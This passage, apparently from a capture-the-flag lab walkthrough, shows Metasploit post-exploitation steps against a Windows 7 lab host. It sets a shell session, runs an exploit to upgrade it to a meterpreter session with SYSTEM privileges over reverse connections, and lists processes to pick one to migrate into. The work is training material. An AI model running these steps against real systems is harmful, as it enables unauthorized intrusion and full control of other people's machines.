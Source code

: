The `SESSION` option is required, but not set. To find a session for it to connect to, run:

`sessions`

```
Id  Name  Type               Information                                               Connection
--  ----  ----               -----------                                               ----------
1         shell x64/windows  Shell Banner: Microsoft Windows [Version 6.1.7601] -----  10.18.72.167:4444 -> 10.10.125.60:49196 (10.10.125.60)
```

Our current session is `1`, so we need to tell meterpreter to use this session:

`set session 1`

**Running the exploit**   
To get our meterpreter shell injected, run:

`exploit`

After this has run, you can check to see if the new session has been created:

`sessions`

```
  Id  Name  Type                     Information                                               Connection
  --  ----  ----                     -----------                                               ----------
  1         shell x64/windows        Shell Banner: Microsoft Windows [Version 6.1.7601] -----  10.18.72.167:4444 -> 10.10.32.37:49170 (10.10.32.37)
  2         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC                              10.18.72.167:4433 -> 10.10.32.37:49172 (10.10.32.37)

```

**Join the new session**   
The new session id is `2`, so run an interactive session:

`sessions -i 2`


**Check running processes**   
We now have access to the system, but our process might not have the `SYSTEM` privileges so we need to find a process to migrate to. To see what processes are running, run:

`ps`

```
PID   PPID  Name                  Arch  Session  User                          Path
 ---   ----  ----                  ----  -------  ----                          ----
 416   4     smss.exe              x64   0        NT AUTHORITY\SYSTEM           \SystemRoot\System32\smss.exe
 544   536   csrss.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\csrss.exe
 592   536   wininit.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\wininit.exe
 604   584   csrss.exe             x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\csrss.exe
 644   584   winlogon.exe          x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\winlogon.exe
 692   592   services.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\services.exe
 ...   ...   ............          ...   .        .. ................           ................................
```
